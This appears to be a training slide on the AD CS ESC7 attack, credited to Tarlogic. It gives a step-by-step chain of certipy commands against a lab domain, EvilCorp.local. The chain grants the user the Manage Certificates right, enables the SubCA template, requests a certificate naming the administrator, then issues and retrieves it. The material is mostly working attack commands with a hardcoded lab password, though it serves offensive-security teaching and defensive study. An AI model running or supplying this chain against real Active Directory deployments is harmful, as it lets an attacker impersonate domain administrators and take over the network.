

# ECS7 - Abuse
In order for this technique to work, the user must also have the Manage Certificates access right, and the certificate template SubCA must be enabled. With the Manage CA access right, we can fulfill these prerequisites.
Gran grant yourself the Manage Certificates access right by adding your user as a new officer:
certipy ca 'EvilCorp.local/MCUser:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -add-officer 'MCUser'
The SubCA template can be enabled on the CA with the -enable-template parameter:
certipy ca 'EvilCorp.local/MCUser:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -enable-template 'SubCA'
Requesting a certificate based on the SubCA template:
certipy req 'EvilCorp.local/MCUser:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -template 'SubCA' -alt 'administrator@EvilCorp.local'
With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the -issue-request <request ID> parameter:
certipy ca 'EvilCorp.local/MCUser:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -issue-request 674
Retrieve the issued certificate with the req command and the -retrieve <request ID> parameter.
certipy req 'EvilCorp.local/MCUser:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -retrieve 674

AD CS: weaponizing the ESC7 attack (Tarlogic)